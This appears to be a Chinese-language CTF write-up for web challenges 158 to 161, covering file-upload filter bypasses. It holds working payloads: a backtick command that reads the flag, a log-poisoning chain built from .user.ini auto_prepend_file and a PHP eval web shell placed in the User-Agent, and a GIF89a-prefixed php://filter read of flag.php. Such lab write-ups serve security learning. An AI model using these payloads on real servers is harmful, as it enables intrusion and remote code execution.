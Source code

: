 访问index.php

![image-20250115115849635](https://gitee.com/bx33661/image/raw/master/path/image-20250115115849635.png)



## web158

> 单六检测

看了一下同样的方法可以使用



## web159

在前两题的基础上过滤了 `()`,我们没法使用命令执行函数

```php
<?= `cat ../fl*`?>
```



## web160

这个过滤更加严格，这个题的思路我学习了一下是这样的

利用日志包含

> nginx 默认日志地址为 `/var/log/nginx/access.log`

1. 上传mum.png,

```(空)
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
```

2. 上传.user.ini

```ini
auto_prepend_file=shell.png
```

3. 修改UA

```PHP
<?php @eval($_GET["attack"]);?>
```

4. 连接



## web161

> 增加了对图片头的检测

可以采用上一题的思路

同时也可以,利用伪协议把flag.php带出来

```(空)
GIF89a
<?=include"ph"."p://filter/convert.base64-encode/resource=../flag.ph"."p"?>

GIF89a
auto_prepend_file=mum.png
```

![image-20250115152622990](https://gitee.com/bx33661/image/raw/master/path/image-20250115152622990.png)
